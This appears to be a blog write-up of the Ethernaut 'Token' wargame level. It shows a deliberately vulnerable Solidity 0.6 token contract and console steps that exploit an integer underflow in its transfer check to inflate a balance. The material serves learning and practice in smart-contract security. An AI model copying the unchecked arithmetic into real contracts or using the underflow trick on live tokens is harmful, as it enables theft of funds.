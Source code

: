 ```yaml
---
layout: post
title: Ethernaut - 5.Token
date:  2022-08-27
tags: ethernaut solidity
---
```

## Difficulty: 🌕🌕🌑🌑🌑
> The goal of this level is for you to hack the basic token contract below.<br />
  You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.<br /> <br />
  Things that might help:
  - What is an odometer?

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

## Writeup
There is a famous security pitfall. We can use technique **Underoverflow** to complete this level.
1. Get new instance
2. `await contract.balanceOf('YOUR_ACCOUNT').then(v=>v.toString())`, it return default balance `20`
3. `await contract.transfer('OTHER_ACCOUNT', 1000000)`
4. `await contract.balanceOf('YOUR_ACCOUNT').then(v=>v.toString())`, it return a very big amount.
5. Submit instance ξ( ✿＞◡❛)


![](https://i.imgur.com/YINZhWH.png)
